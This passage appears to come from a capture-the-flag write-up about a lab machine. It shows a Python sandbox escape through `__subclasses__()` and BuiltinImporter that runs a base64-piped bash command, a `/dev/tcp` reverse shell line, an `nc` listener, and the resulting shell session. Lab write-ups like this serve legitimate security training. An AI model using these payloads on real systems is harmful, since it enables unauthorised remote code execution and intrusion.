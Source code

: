 `getattr()` is a built-in Python function that dynamically accesses an object's attributes or methods by name (as a string). 

So our exploit, is interpreted as :  
```python
for cls in [].__class__.__base__.__subclasses__():
  if cls.__name__ == 'BuiltinImporter':
  mod = cls().load_module('os')  
  getattr(mod, 'system')('echo <payload> | base64 -d | bash')
```
For the payload, we can just use a regular reverse shell payload :  
```bash
bash -i >& /dev/tcp/<ip_address>/<port> 0>&1
```

We start a listener on port 4444, and we run our exploit : 
![Code ](/assets/img/posts/code/rce.png)
_Exploit request_  
We receive a shell session as app-production! 

```plaintext
➜  Code rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.62 60540
bash: cannot set terminal process group (100765): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$ whoami
whoami
app-production
```
We visit it's home directory, and we find the user flag there :  
